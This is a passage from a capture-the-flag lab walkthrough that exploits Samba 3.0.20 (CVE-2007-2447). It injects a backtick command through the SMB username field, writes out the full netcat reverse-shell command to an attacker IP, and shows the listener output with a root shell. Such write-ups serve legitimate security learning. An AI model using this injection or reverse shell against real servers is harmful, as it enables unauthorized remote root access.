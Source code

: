We'll pick the third one on the list, as it is the most specific to our version (`3.0.20`). [Looking up the CVE](https://nvd.nist.gov/vuln/detail/CVE-2007-2447), we can exploit a vulnerability in, again, the username. If we provide a username `` `id` `` between backticks like that, the command `id` will be executed just like it would on the Linux command line (where we often use `$()` for this). The exploit uses `nohup` to allow the command to run for longer than the SMB session. Let's try it!

```
$ nc -lvnp 4444

---> SWITCH TO NEW TAB

$ smbclient //10.10.10.3/tmp -U './=`nohup nc -e /bin/sh 10.10.14.8 4444`'
Password for [=`NOHUP NC -E \bin/sh 10.10.14.8 4444`]:
session setup failed: NT_STATUS_LOGON_FAILURE
```

We use `nohup` to run a `nc` netcat connection with the flag `-e`:

```
-e filename  specify filename to exec after connect
```

Our value is `/bin/sh` which is a basic shell.

Lastly we provide the IP address of our attacker machine on which the listener is running: `10.10.14.8`, and the port on which the listener is listening: `4444`.

Weirdly enough my command seems to be getting uppercased, so this is not going to work. Let's try alternative authentication. We can change users once authenticated:

```
$ smbclient //10.10.10.3/tmp
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.8 4444`"
Password:
```

If we then go check on my other tab where I have my listener running

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 59663
```

We seem to have a connection, let's run a command to see if we have a shell:

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 59663
id
uid=0(root) gid=0(root)
```

We can use Python (if installed) to upgrade this shell by spawning Bash:

